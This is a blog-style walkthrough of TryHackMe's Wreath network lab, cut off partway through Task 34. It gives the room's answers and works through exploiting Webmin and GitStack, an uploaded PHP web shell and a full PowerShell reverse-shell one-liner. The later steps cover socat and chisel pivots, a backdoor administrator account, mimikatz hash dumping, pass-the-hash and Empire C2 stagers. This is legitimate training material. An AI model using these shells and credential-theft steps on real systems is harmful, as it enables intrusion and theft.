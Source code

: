 ```yaml
---
layout: post
title: "Wreath"
date: 2022-11-20
ctf: true
excerpt: "Walkthrough for Wreath on Try Hack Me"
tags: [Try Hack Me, Wreath, Network]
comments: false
---
```


# Wreath

[Wreath](https://tryhackme.com/room/wreath) is one of the "Networks" available on [TryHackMe](https://tryhackme.com). It consists of three machines, and the topics focused on are Pivoting, Working with the Empire C2 Framework, and Simple AV evasion techniques. There are a total of 46 tasks, so this is quite a lengthy challenge.

## Hints

<details><summary><strong>Room Hints</strong></summary>
<ul>
    <li>No hints are needed! Follow along and pay attention closely, and you will be guided through all the necessary information to attack this network!
</ul>
</details>

## Walkthrough

<details><summary><strong>Full Walkthrough</strong></summary>

### Task 1 - Introduction

This task just goes over the rules of engagement and code of conduct. There is also a zip file to download from the Download Task Files link, which includes several Linux and Windows tools that will be used over the course of this challenge. Once downloaded, complete this first task.

![Wreath introduction](/assets/img/Wreath1.png)


### Task 2 - Accessing the Network

This is another introductory task, and it walks you through downloading the ovpn file and connecting to the Wreath network, as it is separate from normal challenges. Read the documentation and follow the steps to learn how to connect to the network and how to start/stop and reset machines in the network. Complete the required steps and move on to the next task.

### Task 3 - Backstory

This just provides some backstory for this challenge. Once you've read the provided information, complete this step to move on to the next task.

### Task 4 - Brief

This provides details on the machines involved and how they are configured. After reading the information, mark the two steps as complete to move on to the next task.

### Task 5 - [Webserver] Enumeration 

This is the first task that is more hands on. There are several questions for this particular task, which are as follows:

![Wreath Task 5 questions](/assets/img/Wreath2.png)

Let's start with the first one to identify how many ports of the first 15,000 are open. As stated in the beginning of this step, you will scan the initial IP listed on the Network screen, which should look similar to this:

![Wreath Network Initial Host](/assets/img/Wreath3.png)


Let's run the following command to enumerate the first 15,000 TCP ports:

`nmap -A -oA wreath-network -p1-15000 <web server IP>`

![Wreath nmap](/assets/img/Wreath4.png)

It appears that SSH(port 22), HTTP(port 80), HTTPS(port 443), and HTTP (10000) are open. This means the answer to the first question for this task is:

`4`

The 2nd question asks what operating system nmap thinks is running. By looking at the Apache server that is running on ports 80 and 443, it appears to be:

`centos`


Next, attempt to navigate to the http website with:

`http://<initial server IP>`

![Wreath http site](/assets/img/Wreath5.png)

You should be redirected to a domain, which is the answer to this question:

`https://thomaswreath.thm`

The next question requires you to edit your hosts file. In Linux, this is located at `/etc/hosts`. To edit this, run the following:

`nano /etc/hosts`

And add the following entry:

`<initial ip address> thomaswreath.thm`

![Wreath nano /etc/hosts](/assets/img/Wreath6.png)

Press **CTRL+S** followed by **CTRL+X** to save changes and close nano. This question can now be completed and you should be able to view the website properly.

The next question wants you to review the website and find Thomas's mobile phone number, which is located during the bottom of the page:

![Wreath website mobile phone number](/assets/img/Wreath7.png)

`+447821548812`

The next question wants you to take a look at the high level port, which is 10000 and uncover the name and version of the application that is running on this port. Reviewing the nmap results above provides you with the following:

![Wreath nmap port 10000](/assets/img/Wreath8.png)

`MiniServ 1.890 (Webmin httpd)`

Next, it wants to know the CVE for this version of this application. A Google search of:

`MiniServ 1.890 CVE`

returns the following, which answers this question:

![Wreath MiniServ CVE](/assets/img/Wreath9.png)

`CVE-2019-15107`

The final question just lets you know you've found everything you need for this task, so you can complete it and move on to Task 6!

### Task 6 - [Webserver] Exploitation

This task walks you through downloading an exploit for this application and how to exploit it. The following questions are asked as part of this task:

![Wreath Task 6 Questions](/assets/img/Wreath10.png)

The first task wants you to run the exploit found [here](https://github.com/MuirlandOracle/CVE-2019-15107). After downloading this file, follow the steps listed to ensure that the requirements are installed and that the file is made executable in order to run this exploit. Once this has been completed, run the exploit with:

`python3 CVE-2018-15107.py 10.200.84.200`

![Wreath Webmin Exploit](/assets/img/Wreath11.png)

The next question asks you who webmin is running as. This is a pretty easy question, and can be solved by running:

`whoami`

which returns the result of:

`root`

![Wreath Webmin root shell](/assets/img/Wreath12.png)

Next, let's get a reverse shell back to our attacker system. First, from your attacker box, you need to find out your tun0 IP, which can be done with:

`ip a`

![Wreath Attacker IP](/assets/img/Wreath13.png)

Now, from the attacker IP, we need to use netcat to catch the reverse shell. Let's do that over port 25 using the following command:

`nc -nvlp 25`

Back on the Webmin exploit terminal window, run:

`shell`

and then enter your IP address for the next prompt followed by the port you used.

![Wreath Webmin reverse shell](/assets/img/Wreath14.png)

Next, back on the terminal window where you used netcat, you should have a root shell which completes this question. Next, let's stabilize the reverse shell by running:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

Next, press:

`CTRL+Z`

to background the reverse shell, and then run:

`stty raw -echo; fg`

To bring it back to the foreground. This will turn off the echo of commands you run.

![Wreath reverse shell TTY config](/assets/img/Wreath15.png)

This will complete the stabilization question. The next question wants you to find the root user's hash. This can be found by running:

`cat /etc/shadow`

![Wreath shadow file](/assets/img/Wreath16.png)

This provides the answer to this question. Typically, you would attempt to crack this hash, but you are told this is not an easily crackable password. Let's see if we can find another way to establish persistence. After some review, SSH is setup for the root user, and you can find the root user private key at:

`/root/.ssh/id_rsa`

This is the answer to this question. Save this file to your attacker machine and run:

`chmod 600 <key name>`

in order to use it later. 

The last question for this task has you acknowledge that you have completed the above, so you can quickly close this out to move to Task 7.

### Task 7 [Pivoting] What is Pivoting?

This task gives you a brief summary of what pivoting is. The only task here is to acknowledge that you've read the summary. Go ahead and complete this question to move on to Task 8.

### Task 8 [Pivoting] High-level Overview

This goes a bit more in depth on the topic from the previous task, and has two questions to answer.

![Wreath Task 8 Questions](/assets/img/Wreath17.png)

The first question asks you which pivoting method can send information inside another protocol. The answer to this is:

`tunnelling`

The 2nd question, while not needed for this challenge, asks you to find the Meterpreter module for port forwarding. The answer to this question is:

`portfwd`

### Task 9 [Pivoting] Enumeration

This task goes over some commands that can be ran to find useful information on target systems once you've established a foothold. In particular, it provides information on how to find DNS entries on Windows and Linux systems. There is also information on how to do a ping sweep from Linux to hosts in a particular /24 network. This information provides answers to the questions below:

![Wreath Task 9 Questions](/assets/img/Wreath18.png)

The first question asks for the path/file for DNS entries in Linux, which is:

`/etc/resolv.conf`

The second question asks for the path/file for DNS entries in Windows, which is:

`c:\Windows\System32\drivers\etc\hosts`

The third question asks on how to perform a manual ping sweep with bash on a 172.160.0.x/24 network, which would be:

`for i in {1..255} do (ping -c 1 172.16.0.${i} | grep "bytes from" &); done`

This completes the questions for Task 9. Let's move on to Task 10.

### Task 10 [Pivoting] Proxychains & FoxyProxy

This task walks you through configuring Proxychains and FoxyProxy, which leads to the following questions:

![Wreath Task 10 Questions](/assets/img/Wreath19.png)

The first question asks how you would update the proxychains config file to redirect through a socks4 proxy on 127.0.0.1:4242. The answer to this question is:

`socks4 127.0.0.1 4242`

The second question asks you how you would use proxychains to telnet through a proxy to 172.16.0.100:23. The answer to this question is:

`proxychains telnet 172.16.0.100 23`

The third question lets you know you've discovered a web app running on a target on an  isolated network, and wants to know what would be better for proxying, Proxychains (PC) or FoxyProxy (FP). In this case, it would be:

`FP`

### Task 11 [Pivoting] SSH Tunneling / Port Forwarding

This task walks you through how to setup local and remote port forwarding using SSH between two systems. After reading the information provided, several questions are asked for this particular task as shown below:

![Wreath Task 11 Questions](/assets/img/Wreath20.png)

The first question asks if you're connecting to an SSH server from your attacking machine to create a port forward, whether this is a local or remote port forward. The answer to this is local (L) as you're initiating the connection from the attacker machine:

`L`

The second question asks which switch combination can be used to background an SSH port forward or tunnel. The answer to this is:

`-fN`

Which tells ssh to background the shell immediately and to not execute commands (instead, just keep the SSH connection open in the background).

The third question asks whether it's a good idea to enter our own password on a remote machine to setup a reverse proxy. The answer to this is:

`Nay`

The fourth question asks how you would create a throwaway pair of SSH keys for a reverse connection. The command to use would be:

`ssh-keygen`

The fifth question starts to put the previous questions together, and asks you the command to setup a reverse port forward from a remote machine to your local machine. The answer based on the information provided would be:

`ssh -R 2222:172.16.0.100:22 kali@172.16.0.200 -i id_rsa -fN`

The sixth question asks you to setup a forward proxy on port 8000 to user@target.thm and then background the shell. This is done with:

`ssh -L 8000 user@target.thm -fN`

The final question asks how you would port forward a web server (port 80) that's only accessible to itself to your attacking machine over port 8000. This would be accomplished with:

`ssh -R 8000:127.0.0.1:80 user@172.16.0.50 -fN`

This completes Task 11, let's move on to the next Task.

### Task 12 [Pivoting] plink.exe

plink.exe is a windows command line version of PuTTY, which can be used to establish a reverse connection to an attacker box with:

`cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N`

There is only one question for this task as shown below:

![Wreath Task 12 Questions](/assets/img/Wreath21.png)

The answer to this question is:

`puttygen`

### Task 13 [Pivoting] Socat

This task goes over what socat is and how it can be used to create fully stable shells. Near the bottom of this task are four questions, which are as follows:

![Wreath Task 13 Questions](/assets/img/Wreath22.png)

The first qusetion asks which socat option lets you reuse the same listening port for more than one connection. That answer is:

`reuseaddr`

The next question asks how you would use a static socat binary to relay a reverse shell to port 443 on your attacking machine with an IP address of 172.16.0.200. The server listener would be TCP port 8000. This would be accomplished with:

`./socat tcp-l:8000 tcp:172.16.0.200:443`

The third question asks how you would perform port forwarding using the easy method with socat. In this example, it would be done with:

`./socat tcp-l:2222,fork,reuseaddr tcp:172.16.0.100:22 &`

The final question asks how you would creat an encrypted port forward using OpenSSL. This would require several steps as shown below. First, create the certificate with:

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

Next, combine the .key and .crt files into a .pem file with:

`cat shell.key shell.crt > shell.pem`

Next, open up the reverse shell listener with:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`

Finally, to connect to the reverse shell, use:

`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

### Task 14 [Pivoting] Chisel

This task provides several ways to create reverse connections with chisel. There are four questions for this task.

![Wreath Task 14 Questions](/assets/img/Wreath23.png)

The first question asks how you would start a chisel server for a reverse connection using port 4242. This would be accomplished with:

`./chisel server -p 4242 --reverse`

The second questions wants to know the command to use to connect to this server from a compromised host with a SOCKS proxy, assuming your IP is 172.16.0.200. This would be (we assume port 4242 based on the question above):

`./chisel client 172.16.0.200:4242 R:socks &`

The third question asks how to forward 172.16.0.100:3306 to your attacker machine 172.16.0.200 on port 33060 on port 33060 while listening on port 1337 and backgrounding the process. This would be done with the following format:

`./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`

Which results in the following answer:

`./chisel client 172.16.0.200:1337 R:33060:172.16.0.100:3306 &`

The fourth question for this task asks how to create a local port forward opening port 8000 locally and linking to 172.16.0.10:80 when you have a chisel server running on 172.16.0.5 on port 4444. This would be accomplished with:

`./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`

Which would result in the following answer:

`./chisel client 172.16.0.5:4444 8000:172.16.0.10:80`

### Task 15 [Pivoting] sshuttle

sshuttle is yet another tool that can be used to create an SSH connection that acts as a tunnelled proxy. It essentially simulates a VPN. This task has three questions to answer as shown below:

![Wreath Task 15 Questions](/assets/img/Wreath24.png)

The first qustion asks how you would use sshuttle to connect to 172.16.20.7 with a username of pwned and a subnet of 172.16.0.0/16. This would be accomplished with:

`sshuttle -r pwned@172.16.20.7 172.16.0.0/16`

The second question asks what switch/argument you would use to tell sshuttle to use a keyfile called priv_key located in the current directory. This would be:

`--ssh-cmd "ssh -i priv_key"`

The final command asks what switch and argument you would use if you are receiving a Broken Pipe error when attempting to connect to 172.16.0.100. This would be:

`-x 172.16.0.100`

### Task 16 [Pivoting] Conclusion

This just provides a summary of the tools covered in Tasks 7-15, and just wants you to mark the one question as complete that does not require an answer once you have reviewed it.

### Task 17 [Git Server] Enumeration

This task is where the previous tasks are actually put into practice. There are six questions associated with this task, which are as follows:

![Wreath Task 17 Questions](/assets/img/Wreath25.png)

For the first question, we are requested to discover how many hosts are active on the network. To do so, we should first connect to the initial server we ended up with the root ssh key for in Task 6, and use that to connect. As a refresher, this would be done with:

`ssh -i id_rsa root@10.200.84.200`

Next, let's setup a python server to copy over the nmap static binary to this system. In another terminal tab, navigate to a directory on your attacker system where you have this binary stored, and run the following:

`python3 -m http.server`

Back on the target machine where you connected as root, run the following commands to navigate to the /tmp directory and copy the nmap binary over (which has had my username added to it per the directions in the course).

```
cd /tmp
curl <attacker machine ip>:8000/nmap-<username> -o /tmp/nmap-<username>
chmod +x /tmp/nmap-<username>
```

![Wreath copy nmap binary](/assets/img/Wreath26.png)

Next, let's run nmap on this network with:

`./nmap-<username> -sn 10.200.84.0/24`

This provides the following results. 

![Wreath copy nmap ping sweep](/assets/img/Wreath27.png)

We would exclude the .1 and .250 IP addresses per the instructions from this challenge, along with the .200 host we're connected to, so the answer to the first question would be:

`2`

The second question asks for the last octet of the other two hosts, which can be found in the scan that was just performed. The answer to this is:

`100,150`

The third question asks you to perform a scan on the hosts discovered during the prior two qusetions. Let's run the following nmap scan on these two hosts:

`./nmap-<username> 10.200.84.100,150 -p-`

This returns the following results:

![Wreath nmap host scan](/assets/img/Wreath28.png)

This lets us know that all the ports scanned that were **not** filtered were on the following host, which is the answer to this question:

`150`

The fourth question asks for the 3 ports uncovered on the other host in ascending order, which are as follows:

`80,3389,5985`

The fifth question asks you to assume that the services listed are correct, and guess which one will likely have some sort of vulnerability. Based on the services listed, the following is most likely the service with a vulnerability:

`http`

The sixth question requires no answer, and just wants you to know that once you have the above information, you can use some of the previously discussed tools/techniques to attempt to access them.

### Task 18 [Git Server] Pivoting

This task requires you to port forward the web server on the .150 host so you can visit it from your attacker machine. Per the instructions, sshuttle is the recommended approach. There are four questions for this task as shown below:

![Wreath Task 18 Questions](/assets/img/Wreath29.png)

Since we have the id_rsa key for the root user of the .200 host, let's start by running the following from our attacker machine to connect:

`sshuttle -r root@10.200.84.200 --ssh-cmd "ssh -i id_rsa" 10.200.84.0/24 -x 10.200.84.200`

![Wreath sshuttle connection Git Server](/assets/img/Wreath30.png)

Next, visit http://10.x.x.150 (x.x will vary based on which network you are on) from your attacker machine, you should see an error page similar to the following:

![Wreath sshuttle Django error](/assets/img/Wreath31.png)

This error message lets you know the answer to the first question asking what service is running by reviewing the error message, which is:

`gitstack`

Let's navigate to http://10.x.x.150/gitstack, and you are provided with default credentials.

![Wreath gitstack login page](/assets/img/Wreath32.png)

Test these out to answer the second question. The answer is:

`Nay`

since these do not work. For the third question, you just need to acknowledge that you've ran:

`searchsploit gitstack`

as that information is used to answer the forth question for this task.

After running searchsploit gitstack, you will see the following.

![Wreath searchsploit exploit list](/assets/img/Wreath33.png)

The EDB number is the number listed before .py in the Path variable. In this case, this is:

`43777`

### Task 19 [Git Server] Code Review

This task consists of 4 questions, as shown below:

![Wreath Task 19 Questions pt 1](/assets/img/Wreath34.png)
![Wreath Task 19 Questions pt 2](/assets/img/Wreath35.png)

As written in the provided directions, let's copy this exploit into our current folder on our attacker machine with:

`searchsploit -m 43777`

Next, let's open this exploit in a text editor with:

`mousepad 43777.py`

![Wreath mousepad 43777.py](/assets/img/Wreath36.png)

This should allow us to answer the first three questions for this task. The first question asks for the date this was written, which is:

`18.01.2018`

The second question asks you what language this was written in, Python 2 or 3. Since there are no parentheses around the print commands, that likely indicates this is python2. This lets us answer the 2nd question, which is:

`python2`

The next questions asks you to add a shebang at the top of this exploit to indicate which programming language to execute it with. This would be done with:

`#!/usr/bin/python2`

Next, we will need to modify the ip of the script on line 23 (if you inserted the shebang at the top). Replace the 192.168.1.102 IP with the IP of the .150 box.

![Wreath modify 43777.py](/assets/img/Wreath37.png)

Leave the command to run alone on line 26 for now. The last question wants you to provide the name of the cookie in the POST request on line 74, which is:

`csrftoken`

Save and close the exploit.

### Task 20 [Git Server] Exploitation

This task has seven questions in total.

![Wreath Task 20 Questions pt 1](/assets/img/Wreath38.png)
![Wreath Task 20 Questions pt 2](/assets/img/Wreath39.png)
![Wreath Task 20 Questions pt 3](/assets/img/Wreath40.png)
![Wreath Task 20 Questions pt 4](/assets/img/Wreath41.png)

Let's start by testing the exploit we created in Task 19 to see if it works. This can be ran by running.

![Wreath test exploit](/assets/img/Wreath42.png)

As you can see in the screenshot, this worked successfully and lets us know that the web server is running as system. This also lets us know this is a Windows computer.

`./43777.py`

Now that we know this is working, let's review the code once again. On line 94, we can see the name of the exploit that is being uploaded. Let's update this to exploit-<username.php>:

![Wreath test exploit](/assets/img/Wreath43.png)

Now, let's rerun this test exploit to upload this web shell. This would answer the first question.

A review of the code lets us know that this is using a POST command with the "a" parameter to run our commands. Once we've ran the exploit, let's reuse the uploaded webshell instead of continuing to run the exploit. This can be done with the following to run any command we would like:

`curl -X POST http://<150 machine IP>/web/exploit-<username>.php -d "a=<command to run>`

Let's test this out with the hostname command, which would be the answer to the second question.

![Wreath 150 hostname](/assets/img/Wreath44.png)

This provides us with the answer of:

`git-serv`

The third question wants us to figure out the OS on this target. We already know it's windows, but to confirm, run `systeminfo`.

![Wreath 150 systeminfo](/assets/img/Wreath45.png)

This provides us with the answer to this question:

`Windows`

The fourth question we had already answered with our test exploit. It is running as the following user:

`nt authority\system`

The fifth question wants you to try to ping your attacker machine and to see if it was successful or not. This could be done with:

`curl -X POST http://<150 machine IP>/web/exploit-<username>.php -d "a=ping -n 3 <attacking machine IP>`

![Wreath 150 ping](/assets/img/Wreath46.png)

It appears that none of the pings made it back, so the answer to this question is:

`0`

In order to catch the shell, you will need to either setup a shell to be caught on the 200 host, or a relay to relay it back to the attacker machine. Let's try the second option, as that is the entire purpose of this challenge. First, choose a port you would like to use. In this case, we're going to use 8888. We would need to follow the provided instructions and run:

`firewall-cmd --zone=public --add-port 8888/tcp`

on the .200 machine we initially connected to, as CentOS by default is pretty restrictive with what it allows.

![Wreath modify 200 firewall](/assets/img/Wreath47.png)

Next, let's run a python http server on our attacker machine, like we did earlier, with:

`python3 -m http.server`

Next, let's navigate to the /tmp folder and download the socat binary to this system so we can set it up as a relay.

```
cd /tmp
curl <attacker machine ip>:8000/socat-<username> -o /tmp/socat-<username>
chmod +x /tmp/socat-<username>

```

![Wreath copy socat to 200](/assets/img/Wreath48.png)

Next, on the .200 host, let's run the following:

`./socat-<username> tcp-l:8888 tcp:<attacker ip>:8888 &`

![Wreath socat port forwarding 150 to attacker](/assets/img/Wreath49.png)

This takes care of the sixth question for this task. Let's setup a netcat listener on our attacker machine with:

`nc -nvlp 8888`

Now that this has been setup, let's use a PowerShell reverse shell along with curl to get a reverse shell to the .150 host on our attacker machine. Let's use the following PowerShell script:

`powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('<200 machine ip>',8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

We will need to URL encode this as well, as we will be using curl to establish this connection. This can be done with an [online URL encoder](https://www.urlencoder.org/).

![Wreath url encode rev shell](/assets/img/Wreath50.png)

Next, let's run the following curl command to establish our reverse shell to the .200 host:

`curl -X POST http://<150 ip address>/web/exploit-<username>.php -d "a=<url encoded powershell reverse shell>"`

![Wreath curl rev shell 200 machine](/assets/img/Wreath51.png)

Back on our netcat listener, we should have caught a reverse shell:

![Wreath rev shell 200 machine](/assets/img/Wreath52.png)

At this point, we have completed the final question for this task!

### Task 21 [Git Server] Stablisation & Post Exploitation

This task has a few steps that help you gain better stability to the .200 machine. This is done by creating a new user account, making it an administrator, and adding it to the Remote Management Users Group. We can then access it via RDP from our attacker machine. This task has a total of six questions as shown below.

![Wreath Task 21 Questions pt 1](/assets/img/Wreath53.png)
![Wreath Task 21 Questions pt 2](/assets/img/Wreath54.png)

First, let's add a new user with administrative and RDP privileges with the following to this new machine:

```
net user <username> <password> /add

net localgroup Administrators <username> /add
net localgroup "Remote Management Users" <username> /add
```

![Wreath create admin user 150 machine](/assets/img/Wreath55.png)

This completes the first question. To finish the second question, let's test our connectivity with evil-winrm:

`evil-winrm -u <username> -p <password> -i <150 machine ip>`

![Wreath winrm admin user 150 machine](/assets/img/Wreath56.png)

For the third question, let's connect with rdp from our attacker machine, using the following command (this will share a resources folder on our attacker machine that will be used to run some tools in a future step):

`xfreedrp /v:<150 machine IP> /u:<username> /p:<password> +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share`

![Wreath rdp admin user 150 machine](/assets/img/Wreath57.png)

Next, open a command prompt as administrator and run mimikatz from the shared drive you setup with:

`\\tsclient\share\mimikatz\x74\mimikatz.exe`

Next, run:

```
privilege::debug
token::elevate
```

![Wreath mimikatz pt1 150 machine](/assets/img/Wreath58.png)

This will elevate your privileges with mimkatz, which then lets you dump the local SAM database with:

`lsadump::sam`

This will provide a lot of information, but you're specifically looking for the NTLM hash for the Administrator account:

![Wreath mimikatz pt2 150 machine](/assets/img/Wreath59.png)

This hash is the answer for the third question. The fourth question asks you for the NTLM hash for "Thomas", which is also found in this dump:

![Wreath mimikatz pt3 150 machine](/assets/img/Wreath60.png)

Let's attempt to crack these two hashes. This could be done locally with Hashcat or John, or you could also try sites like [Crackstation](https://crackstation.net). While it did not crack the admin password, it did crack Thomas's, which is the answer to the fifth question:

![Wreath crack Thomas password 150 machine](/assets/img/Wreath61.png)

The sixth question wants you to connect via win-rm with the administrator hash. This can be done with:

`evil-winrm -u Administrator -H <hash> -i <150 machine ip>`

![Wreath evil-winrm administrator 150 machine](/assets/img/Wreath62.png)

This answers the final question for this Task.

### Task 22 [Command and Control] Introduction

This gives a brief overview of what C2 networks are and provides a high level introduction to Empire. Once you've read through the information, mark the single question for this task as complete.

### Task 23 [Command and Control] Empire: Installation

Let's install Starkiller (if not already installed) on our attacker machine (a GUI based version of Empire) with:

`sudo apt install starkiller`

Next, let's run:

`sudo powershell-empire server`

![Wreath start empire server](/assets/img/Wreath63.png)

In another new terminal window, run:

`starkiller`

and login with the default credentials (empireadmin/password123). This completes the only question for this task.

### Task 24 [Command and Control] Empire: Overview

This task provides a general overview of the components of Empire. Read through the information and complete the first question. The second question asks you if you can get an agent directly from the 150 (Git Server). The answer to this is:

`Nay`

We will get into more detail about how to setup this connection in future tasks.

### Task 25 [Command and Control] Empire: Listeners

This task walks you through how to setup a listener both in the CLI in Empire and with Starkiller. Below are the screenshots for setting up our listener in Starkiller.

First, click on the **CREATE +** button in the upper right hand corner. In the type drop down, select http. All the options can be left along except for the host IP, which defaults to your eth0 device. This would need to be changed to the tun0 attacker IP. We would also need to select a port that is not in use. In this instance, I selected 9999. Here is a screenshot of what the configuration looks like:

![Wreath starkiller setup listener](/assets/img/Wreath64.png)

Click on **SUBMIT** in the upper right hand corner to create this listener. You should see a listener similar to the one shown below.

![Wreath starkiller listener](/assets/img/Wreath65.png)

At this point, you can complete the question for this task, and move on.

### Task 26 [Command and Control] Empire: Stagers

This task consists of 2 questions, which we will answer by following the steps below. A stager is the payload that will be used to connect back to the listener from a target machine. To generate it from Starkiller, click on Stagers on the left hand menu (2nd option from the top) and then click on **CREATE +**.

As the directions state, choose multi/bash as the Type and select the listener you created in the previous task.

![Wreath starkiller setup stager](/assets/img/Wreath66.png)

Once complete, click on **SUBMIT**. Next, click on the 3 dots under Actions and select **Copy to Clipboard**

![Wreath starkiller copy stager](/assets/img/Wreath67.png)

Paste the stager into a text editor and save it as:

`stager-<username>.sh`

This completes the first question. The second question wants you to decode the payload and try to figure out what it's doing. Copy everything in parentheses (besides the single quotes) after the base64.b64decode portion of the script. To answer the second question, run:

`echo "<base 64 encoded payload>"|base64 -d`

From here, you can see that it's making an HTTP request to your listener.

![Wreath starkiller decode stager](/assets/img/Wreath68.png)

Complete the question and move on to the next task.

### Task 27 [Command and Control] Empire: Agents

There are two questions for this task:

![Wreath Task 27 Questions](/assets/img/Wreath69.png)

First, let's copy the stager over to the .200 machine. We should have an SSH connection from earlier as root, so let's navigate to the /tmp directory and run:

`nano stager-<username>.sh`

Next, copy and paste the stager into nano and then press:

`CTRL+S` followed by `CTRL+X` to save and exit nano. Let's make the script executable with:

`chmod +x stager-<username>.sh`

![Wreath starkiller 200 stager](/assets/img/Wreath70.png)

Next, run the script and then return to Starkiller and click on the **Agents** option (3rd on left hand menu). You should see an agent that has checked in!

![Wreath starkiller 200 agent](/assets/img/Wreath71.png)
 
To answer the first question, we would need to review the instructions provided since we only used Starkiller and did not setup Empire CLI. The command to run whoami from the Empire CLI listener would be:

`shell whoami`

While not required, to do this in Starkiller, click on the Agent name and then enter the command in the Shell Command window and click on **RUN** 

![Wreath starkiller 200 agent run whoami](/assets/img/Wreath72.png)

In a few moments, click on **TASKS** and then you will see the command you ran, which can be expanded to view the result.

![Wreath starkiller 200 agent whoami result](/assets/img/Wreath73.png)


### Task 28 [Command and Control] Empire: Hop Listeners

While the previous steps let us setup an agent on the 200 server, we would like to be able to reach the .150 server. Let's setup a Hop listener to do that. Following the steps below will get this setup, which answers the only question for this Task. First, click on **CREATE +** on the Listeners page in Starkiller and select **http_hop** as the type. For the host, enter the 200 host IP, and select a high level port. Under RedirectListener, enter the previous http listener name you created in Starkiller. Once completed, click on **SUBMIT**.

![Wreath starkiller http_hop listener](/assets/img/Wreath74.png)

### Task 29 [Command and Control] Git Server

First, let's create a new stager for the http_hop listener. This is similar to what was done in step 26, but we wil choose multi/launcher as the type. Select the http_hop listener in the Listener option. Once done, click on **SUBMIT**.

![Wreath starkiller http_hop stager](/assets/img/Wreath75.png)

Under Actions for this agent, select **Copy to Clipboard**. Paste this into a text editor and set it aside for now. Next, when we created the http_hop agent, it setup a listener folder in /tmp/http_hop. Let's zip this directory, as we will need to copy this over to the .200 machine to route traffic from the .150 machine to our attacker machine through the .200 machine. Run the following commands:

```
cd /tmp/http_hop
zip -r hop.zip *
```

![Wreath starkiller hop.zip](/assets/img/Wreath76.png)

Next, copy this file over to the .200 machine using the same method that was utilized earlier to copy over socat in Task 17. Once copied over, unzip this in the /tmp/\<username> directory on the .200 machine.

Next, since we know that PHP is installed (as that's what's running the current web server), let's use this to our advantage to host a webserver on the port we set in the hop listener we created in the previous task. Let's run the following two commands to ensure the port is open and start the PHP server:

```
firewall-cmd --zone=public --add-port 54321/tcp
php -S 0.0.0.0:54321 &>/dev/null &

```

![Wreath setup hop server 200 machine](/assets/img/Wreath77.png)

Next, let's URL encode the stager we pasted into a text editor earlier, and use curl on our web shell exploit from Task 20 to run the command. Here's the layout for this command as a refresher:

`curl -X POST http://<150 machine IP>/web/exploit-<username>.php -d "a=<command to run>`

![Wreath run stager 200 machine](/assets/img/Wreath78.png)

![Wreath http_hop agent GIT-SERV 150 machine](/assets/img/Wreath79.png)

This completes this task, as we now have an Agent on the GIT-SERV(.150 machine)!

### Task 30 [Command and Control] Empire: Modules

Now that we have an established connection with the .150 machine, let's use Modules to obtain some information. Follow the steps below to complete the one question for this Task. 

Click on Modules on the left hand menu (4th option). In Search in the upper right hand corner, type in sherlock.

![Wreath starkiller sherlock module](/assets/img/Wreath80.png)

Click on the name of the module so we can choose which Agent to run it on. Once selected, click on **SUBMIT**

![Wreath starkiller run sherlock module](/assets/img/Wreath81.png)

On the left hand menu, select Reporting (6th option) and expand the task that was just ran. This should provide a list of potential exploits that can be ran on the .150 machine.

![Wreath starkiller sherlock results](/assets/img/Wreath82.png)

This completes this task!

### Task 31 [Command and Control] Empire: Interactive Shell

This task also has one question which requires no answer. This task shows you how to get to the interactive shell in both Empire and Starkiller. In Starkiller, this is accessed by clicking on the Agent name. In the **Shell Command** box, enter the command and click on **RUN**. After a few moments, click on the **<** arrow in right below the trash can icon to pop out the history of commands ran with the interactive shell:

![Wreath starkiller Agent interactive shell](/assets/img/Wreath83.png)

This completes this task!

### Task 32 [Command and Control] Conclusion

This section has two tasks, read through the Conclusion and complete both tasks, as we will not be exploring additional C2 Frameworks at this time.

### Task 33 [Personal PC] Enumeration

This task consists of one question:

![Wreath Task 33 Question](/assets/img/Wreath84.png)

Let's follow the steps mentioned in this task to connect to the .150 host with evil-winrm and share a scripts directory containing Powershell enumeration scripts with the .150 machine from our attacker host. This is done by running:

`evil-winrm -u Administrator -H <hash from Task 21> -i <150 machine IP> -s /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/`


![Wreath evil-winrm administrator .150 machine](/assets/img/Wreath85.png)

Once connected, run the following to import the PowerShell module, view the help file for the module, and then run it against the 100 host:

```
Invoke-Portscan.ps1
Get-Help Invoke-Portscan
Invoke-Portscan -Hosts 10.200.84.100 -TopPorts 50
```

This gives you the following information.

![Wreath evil-winrm Invoke-Portscan .150 machine](/assets/img/Wreath86.png)

 Under openPorts, you will see the list of ports open, which answers this question.
 
### Task 34 [Personal PC] Pivoting
 
Since we know the .150 machine can access the .100 machine over ports 80 (likely a web server) and 3389 (likely RDP), let's setup a pivot to allow us to connect to the .150 machine directly from our attacker machine.

This task has the following questions:

![Wreath Task 34 Questions](/assets/img/Wreath87.png)

First, let's open up the port we used for Empire from the Adminstrator evil-winrm sessions with:

`netsh advfirewall add rule name="Chisel-<username> dir=in action=allow protocol=tcp localport=<empire agent port number>`

![Wreath open empire port .150 machine](/assets/img/Wreath88.png)

Next, let's upload the chisel executable and create a server with it with the following commands:

```
upload chisel-<username>.exe
./chisel-<username>.exe server -p <port number from Empire/Starkiller> --socks5
